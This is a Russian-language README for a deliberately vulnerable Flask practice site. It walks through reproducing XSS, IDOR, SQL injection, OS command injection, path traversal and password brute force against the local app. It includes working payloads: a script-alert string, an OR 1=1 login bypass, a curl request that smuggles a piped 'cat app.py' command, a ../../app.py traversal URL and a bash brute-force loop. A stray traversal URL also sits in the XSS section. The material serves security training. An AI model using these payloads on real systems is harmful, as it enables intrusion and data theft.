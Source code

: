 # VVery-Bad-flask-app

### Уязвимый веб-сайт, написанное на Flask

Данный сайт иллюстрирует несколько распротраненных уязвимостей:

a. XSS
b. IDOR
c. SQLI
d. OS command injection
e. Path Traversal
f. Brute force

На сайте представлены страницы, соответстсвующие перечисленным уязвимостям. Также, если "дополнительные" проблемы, типа использования слабых алгоритмов хэширования или хранение захардкоженных кредов. 
В базе данных используется две table для иллюстрации уязвимотсей: users и books.
#### Запуск

Выполняем следующие команды: 

```
mkdir -p temp
flask --app app run
```

По дефолту сайт запускается на 127.0.0.1:5000
#### XSS

Страница предоставляет поиск по базе данных, содержащей различные книги. Чтобы воспроизвести уязвимость вносим в поле поиска: 
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```
<script>alert("e he he")</script>
```

#### IDOR 

На странице представлены логин и пароль, по которым можно "войти" в систему. 
Как только мы успешно входим, можно увидеть, что у нас появились пользовательские cookies - user_id и session_token. 

Можно догадаться, что user_id соответсвует порядковый номер (индекс) пользователя в базе данных. Меняем user_id на число 1 или 3, перезагружаем страницу и получаем аккаунт другого пользователя, пропуская шаги валидации пароля. 

#### SQLI

Попробуем ввести рандомный пароль, а в поле "Имя пользователя":

```
admin' OR '1'='1
```

После чего успешно "входим" в систему.

#### OS command injection

Запустим слудеющий curl-запрос: 

```
curl -g 'http://127.0.0.1:5000/os?hostname=8.8.8.8%20-c%203%20|%20cat%20app.py'
```

Видим, что команда исполняется на сервере, где хостится веб-сайт и получаем исходный код. Вместо исходного кода, можем выполнять любые другие команды на сервере. 

#### Path Traversal

Исследуя страницу, видим, что картинка с котом загружается следюущим образом: 
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```
http://127.0.0.1:5000/pathtraversalimg?img=666.jpg
```

Попробуем "погулять" по серверу: 

```
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```

#### Brute Force

Создадим скрипт:

```
file=./pass.txt  
ip=127.0.0.1:5000/bruteforce  
  
while read -r line; do  
	echo $line  
	curl $ip -d "username=admin&password=$line" -v 2>&1 | grep "200 OK"  
done < "$file"
```
Запускаем скрипт, который подбирает пароль к администраторской учетной записи. Можно самостоятельно создать pass.txt или заменить его на любые готовые словари. 

Hint: пароль будет admin 
